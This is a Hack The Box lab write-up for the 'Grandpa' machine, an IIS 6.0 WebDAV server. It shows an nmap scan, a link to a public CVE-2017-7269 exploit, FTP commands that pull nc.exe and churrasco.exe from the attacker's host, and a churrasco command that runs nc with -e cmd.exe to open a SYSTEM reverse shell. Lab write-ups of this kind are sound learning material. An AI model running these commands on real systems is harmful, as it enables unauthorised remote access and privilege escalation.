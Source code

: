 # Grandpa (`10.10.10.14`)

## Summary

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `grandpa.htb` to `10.10.10.14`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports 10.10.10.14
# Nmap 7.80 scan initiated Tue Sep  1 20:48:42 2020 as: nmap -A -sVC -v -p- -Pn -oA allports 10.10.10.14
adjust_timeouts2: packet supposedly had rtt of -459315 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -459315 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -707149 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -707149 microseconds.  Ignoring time.
Nmap scan report for grandpa.htb (10.10.10.14)
Host is up (0.044s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|_  Server Date: Wed, 02 Sep 2020 01:57:05 GMT
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (91%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP SP3 (88%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   47.68 ms 10.10.14.1
2   43.38 ms grandpa.htb (10.10.10.14)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  1 20:51:13 2020 -- 1 IP address (1 host up) scanned in 151.94 seconds

```

### Reverse Shell

Used https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

Transfer `nc.exe` and `churrasco.exe` with FTP.

```bash
$ sudo python3 -m pyftpdlib -p 21

C:\wmpub>echo open 10.10.14.39 > ftp.txt & echo USER anonymous >> ftp.txt & echo password >> ftp.txt & echo bin >> ftp.txt & echo GET nc.exe >> ftp.txt & echo GET churrasco.exe >> ftp.txt & echo bye >> ftp.txt

C:\wmpub>ftp -v -n -s:ftp.txt
```

Get SYSTEM shell with:

```bash
$ sudo nc -lvnp 444

C:\wmpub>churrasco.exe -d "C:\wmpub\nc.exe 10.10.14.39 444 -e cmd.exe"
```